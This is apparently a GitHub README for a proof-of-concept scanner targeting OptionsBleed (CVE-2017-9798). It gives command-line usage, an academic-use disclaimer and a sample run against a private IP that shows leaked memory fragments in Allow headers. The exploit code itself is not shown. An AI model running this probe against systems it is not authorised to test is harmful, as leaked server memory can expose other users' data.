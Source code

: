 # OptionsBleed-POC-Scanner
OptionsBleed (CVE-2017-9798) PoC / Scanner

More information coming soon...

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

## Usage
```
usage: bleeder.py [-h] [-c COUNT] [-fc] [-tc THREAD_COUNT] [-nv] [-ni] [-v] [-e] url

positional arguments:
  url                   full URL (including http(s)) to be scanned

optional arguments:
  -h, --help            show this help message and exit
  -c COUNT, --count COUNT
                        number of times to scan (default: 1000)
  -fc, --force-custom   forces the scan to only attempt using custom verb
                        method (default: try OPTIONS then custom)
  -tc THREAD_COUNT, --thread-count THREAD_COUNT
                        max concurrent thread count (default: 500)
  -nv, --no-verify      does not verify ssl connection (may be necessary for
                        self-signed certs)
  -ni, --no-ignore      does NOT ignore ssl warnings (default: ignored)
  -v, --verbose         print all headers
  -e, --errors          prints all errors
```

## Simple Usage

```
python bleeder.py "http://10.1.2.3" -c 50

        ::OptionsBleed (CVE-2017-9798) Scanner::

[+] scanning http://10.1.2.3 to see if it bleeds!
[+] checking OPTION method
[+] allow headers detected in OPTION response
[+] checking CUSTOM method
[+] allow headers detected in CUSTOM response
[+] scanning with OPTIONS method...
[+] scanning with custom (PULL) method...
[+] 50 responses captured
[+] unique results:
GET,HEAD,allow,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,
GET,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,
GET,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,allow,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,all,HEAD,
GET,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD,all,HEAD
GET,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,OPTIONS,POST,,HEAD,all,HEAD,,HEAD,
GET,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD
GET,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,all,HEAD,
GET,HEAD,allow,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD
GET,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,allow,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,OPTIONS,POST,,HEAD,all,HEAD,,HEAD,
[+] scan complete!
```
